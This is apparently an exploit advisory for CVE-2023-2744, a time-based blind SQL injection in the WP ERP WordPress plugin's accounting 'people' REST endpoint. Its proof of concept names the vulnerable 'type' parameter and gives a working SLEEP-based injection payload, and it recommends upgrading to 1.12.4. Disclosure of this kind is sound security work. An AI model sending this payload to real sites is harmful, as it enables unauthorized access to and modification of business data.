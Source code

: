 # Exploit Title: WP Plugins WP ERP <= 1.12.2 - SQL Injection
# Date: 15-10-2023
# Exploit Author: Arvandy
# Software Link: https://wordpress.org/plugins/erp/
# Vendor Homepage: https://wperp.com/
# Version: 1.12.2
# Tested on: Windows, Linux
# CVE: CVE-2023-2744

# Product Description
WP ERP is the first full-fledged ERP (Enterprise Resource Planning) system through which you can simultaneously manage your WordPress site and business from a single platform. WP ERP aims to deliver all your enterprise business requirements with simplicity. With real-time reports and a better way to handle business data, make your operation better managed, away from errors, and prepare your company for the next leap. WP ERP has 3 core modules: HR, CRM, and Accounting, which together make a complete ERP system for any type of business.

# Vulnerability overview:
The WordPress Plugins WP ERP - Accounting module <= 1.12.2 is vulnerable to Blind SQL Injection (time-based) via the TYPE parameter on /wp-json/erp/v1/accounting/v1/people endpoint. This vulnerability could lead to unauthorized data access and modification.

# Proof of Concept:
Affected Endpoint: /wp-json/erp/v1/accounting/v1/people?type=
Affected Parameter: type
payload: customer') AND (SELECT 1 FROM (SELECT SLEEP(3))x) AND ('x'='x

# Recommendation
Upgrade to version 1.12.4
